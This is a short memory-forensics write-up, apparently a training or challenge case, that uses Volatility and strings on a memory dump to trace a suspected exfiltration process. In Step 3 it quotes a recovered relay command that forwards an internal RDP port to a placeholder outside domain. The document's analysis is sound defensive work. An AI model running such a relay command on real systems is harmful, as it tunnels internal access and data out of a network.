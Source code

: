 # Case n°3 - Network Exfiltration Analysis

## Objective
During the forensic analysis of a memory dump, we suspect that a malicious process is being used as an exfiltration point.  
The goal is to identify the IP address and port of the internal server targeted by this malware.  
For this case, I will reuse the information from case n°2
Let's search for a “IP:PORT” format.

---

## Step 1: Suspicious Process

We start by scanning the network connections in the memory dump.

```bash
python3 vol.py -f memory.dmp windows.netscan | grep 2772
```

Example output:
```
0x1dedb4f8  TCPv4  ESTABLISHED  2772  127.0.0.1  ...  127.0.0.1  iexplore.exe  -  12080
```

This output indicates that the process may be using a local tunnel. To investigate further, we will analyze `cmd.exe`.

---

## Step 2: Inspecting cmd.exe
The `consoles` plugin in Volatility allows us to retrieve command history from the command prompt.

```bash
python3 vol.py -f memory.dmp consoles
```

Relevant output:
```
ConsoleProcess: conhost.exe Pid: 2168
AttachedProcess: cmd.exe Pid: 1616

CommandHistory:
  - tcprelay.exe
  - whoami.exe
  - cmd.exe
```

Here we can clearly see that `tcprelay.exe` has been executed, which strongly suggests data redirection.

---

## Step 3: Extracting Hardcoded Information
To confirm, we extract readable strings from the dump and search for references to the suspicious binary.

```bash
strings memory.dmp | grep -i "tcprelay"
```

Result:
```
tcprelay.exe 192.168.0.22 3389 example-domain.com 443
tcprelay.exe 192.168.0.22 3389 example-domain.com 443
tcprelay.exe 192.168.0.22 3389 example-domain.com 443
```

We now have the IP address and port used for the exfiltration.

---

## Conclusion
The malware (`tcprelay.exe`) is configured to connect to the following internal server:

```
192.168.0.22:3389
```

✅ **Case completed**
